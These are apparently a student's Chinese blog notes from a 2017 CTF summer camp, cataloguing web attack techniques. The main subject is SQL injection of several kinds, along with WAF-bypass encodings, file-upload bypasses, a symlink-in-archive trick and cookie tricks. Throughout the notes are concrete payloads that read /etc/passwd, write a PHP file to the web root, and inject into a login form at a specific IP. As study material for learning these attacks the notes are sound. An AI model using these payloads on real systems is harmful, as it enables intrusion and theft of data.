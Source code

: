```yaml
---
layout: post
title: 0x03-Web第二天
date: 2017-08-04
categories: X-Man夏令营日记（未完成）
---
```


## web感悟

* 也是逆向的过程，猜测服务的代码逻辑
* 出题也是一种学习
* 理解机制，有理可循

### SQL注入

	\$user = \$_POST['username'];
	\$pwd=md5(\$_POST['password']);
	\$query="select * from admin where \$username == \$password "
	
#### union注入

* 有回显。
* 猜字段数。
* 最方便的注入。
* 可以填充查询结果，并额外执行一次。

缺点：很多时候不是select注入，不存在union注入。union关键词经常被过滤。

#### 报错注入

* 页面输出sql报错
* 注入效率高
* 利用SQL语句使数据库报错
* 报错信息里包含SQL执行结果

1.常见报错注入函数

	floor
	extractvalue
	updatexml
	EXP
	UTL_INADDR
	
#### boolean盲注

* 没有数据回显情况下，存在不同界面内容回显。
* 逐个爆破猜解，效率偏低
* 利用回显不同推测SQL语句执行结果真或者假

#### 截取字符串相关函数

1. left(a,b)
2. substr(a,b,c)
3. mid(a,b,c)
4. regexp
5. if

#### timing盲注

* 不存在不同回显，但SQL语句被执行
* 逐个爆破+时间延迟，效率最低
* 利用if(query=true) delay(1000);else pass;的逻辑。观察是否睡眠推断是否正确。

#### SQL注入进一步利用

* mysql的Information_schema数据库存储了数据库的结构信息，放在Information_schema.tables以及Information_schema.columns中。

爆数据库名：id=200' union select 1,2,database()#
爆表名:id=200' union select 

#### 文件读写

* 读取关键文件 select LOADFILE('/etc/passwd');
* 写入shell select '<?php phpinfo();?>' into dumpfile '/var/www/html/1.php'

#### 命令执行

* 利用数据库对服务器写脚本

## WAF绕过

* 双写关键字 SelselectecT
* 大小写绕过 SeLeCt Or
* 编码绕过 
	1. ascii char(97)+char(100)+char(109)=adm
	2. 16进制 extractvalue(0x3C613E61646D696E3c2F613E,0x2f61)
	3. unicode编码 单引号 %u0027 %u02b9 %u02bc %u02c8 %u2032 %uff07
	4. url编码 or 1=1 %6f%72%20%31%3d%31 数字可以先转16%再转Url
	5. or ||  and &&
	6. 空格绕过select(username)from(admin)
	7. 科学计算法绕过where username=1e1union select
	8. =\>\<绕过`where id in(1,2)` `where id between 1 and 3 like`
	9. access使用dlookup绕过select from 
		* (user=12',info=dlookup('[user]','userinfo','[id]=1')%00)
	10. 空格替换：/**/ %a0 %0a %0d %09 tab ......
	11. 内联注释 `select 1 from /*!admin*/ /*!union*/ select 2,`
* 变换姿势绕过
* 特殊字符

http://58.154.33.13:8001/login.php

	username=admin'/**/and/**/password<'52806'#&password=
	
http://58.154.33.13:8003/?order=if(database(),price,name)
	
	
	
### 二次注入

将恶意SQL插入到数据库，程序对输出的数据过于信任。

插入超长的数据，导致之后的被截断，剩下的就可能造成注入。

### 宽字节注入

数据库使用了宽字符集（GBK）。将一些两个字符当作一个字符。如：0xbf27\0xbf5c

反斜杠是0x5c，输入0xbf27转义后成为0xbf5c27，

### Access偏移注入

### 万能密码

构造永真条件，得到条目。

### mysql过长截断

### 防御文件上传

1. 客户端javascript校验
2. 检查扩展名
3. 检查mime类型
4. 随机文件名
5. 隐藏路径
6. 重写内容
7. 检查内容是否合法
	* php3\php5\phtml\PHP\pHP\phtm
	* jsp\jspx\jspf
	* asp\asa\cer\aspx
	* exe\exee

### 白名单绕过

* 截断绕过
* 解析漏洞
	* iis解析漏洞
	* apache解析漏洞
	* nginx解析漏洞
	
### 软连接骚操作
	
压缩解压后软连接不会消失，导致可以读取有权限读取的任意文件。

	ln -s index.php test.txt
	tar cvf test.tar test.txt
	
### cookie property

server:
	Set--Cookie:user=bob
	
* 通过诱导受害者访问http得到cookie，然后利用此cookie访问https。cookie同源策略比较松。
* 带有Secure属性的session只能在https中传输。
	* 覆盖cookie，用自己的cookie，session=attacker；domain=.bank.com。服务器会按照cookie出现的先后顺序来读。一般来说更长path更早创建的cookie被读取。
* 同一个页面由几个不同的cookie请求组成。

空格+admin复写admin账户
admin+空格复写
123','../../../../../../../../../etc/passwd')# 类似二次注入


转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [0x03-Web第二天](http://RoyTse.github.io/2017/08/0x03-Web第二天/)  


	
	
	
	
	
	
	
	
	
	